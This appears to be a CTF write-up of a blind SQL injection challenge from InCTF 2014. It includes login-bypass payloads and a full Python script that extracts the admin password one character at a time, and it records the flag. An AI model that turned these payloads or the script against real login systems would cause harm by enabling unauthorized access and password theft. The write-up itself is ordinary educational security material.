

+++
title="InCTF 2014 - Web 200 Writeup"
date="2014-03-08"
description="A web security writeup for a challenge based on Blind SQL Injection that we solved in InCTF 2014"
author="Nagesh Podilapu"
[taxonomies]
tags=["ctf", "web", "SQLi"]
+++

This is my first CTF writeup.
In this challenge they gave a website like below with a simple yet stylish login form.
As usual first I tried basic sql injection with



Then a page with a black background appeared with no text on screen, then I opened the source of that page and found some interesting comments.

```html
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>
<!-- DEBUG : SELECT * FROM login_users where (username='' or 1=1 #' and password='example') -->
```

After looking at that DEBUG comment, I tried injecting below code

```
' or 1=1 ) #
```

Resulting query will look like this

```
SELECT * FROM login_users where (username='' or 1=1 ) # ' and password='example')
```

Yes, It worked well but just a blank page again, so I opened source code and found "Login successfull!" message this time.

```html
<!DOCTYPE html>
<html>
<style>
body{background: #373737 url("../img/bg.png") 0 0 repeat;}
</style>
<body>
<p>Login successful.</p>
</body>
</html>
```

I got success message again when I am using order by 3, so no.of columns is 3. And then I tried different queries to print admin password on that page but no use. At last I found that it's just giving "Login Successful!" on right query and "Invalid Credentials" on a wrong query.

Then sure, it's [Blind SQL Injection](https://www.owasp.org/index.php/Blind_SQL_Injection).

And we have to find the password of user admin. And expected flag format is: **flag{md5_string}**, so our admin password is a 38 length string starting with **flag{** and ends with **}** now we have to get the remaining 32 bit length md5 string. Here is my python script that prints out flag.

```python
import urllib,urllib2
charset=[48, 49, 50, 51, 52, 53, 54, 55, 56, 57, 97, 98, 99, 100, 101, 102]
flag="flag{"
url="http://103.10.24.99/66ee606d5019d75f83836eeb295c6b6f/login.php"
print "[+] Vuln URL: "+url+"\n"
for i in range(6,38):
    for j in charset:
        va={"username":"admin' and ascii(substring((select password from login_users where username='admin'),"+str(i)+",1))="+str(j)+") #","password":"admin"}
        data = urllib.urlencode(va)
        req = urllib2.Request(url, data)
        response = urllib2.urlopen(req)
        html = response.read()
        if "success" in html:
            print "[+] Congrats! Found %d letter of flag and it is : %c \n"%(i-5,chr(j))
            flag+=chr(j)
            break
        else:
            print "[-] Checked %d letter of flag with %c \n"%(i-5,chr(j))
flag+="}"
print "[+] Pwned ! Here is your Flag : %s \n"%(flag)
```

And the Flag is:  **flag{c5ec74ca7304b7eab694ec4545f7e6b3}**

Thanks for reading and thanks to team **bi0s** for making a great CTF and introducing me to different attack vectors.
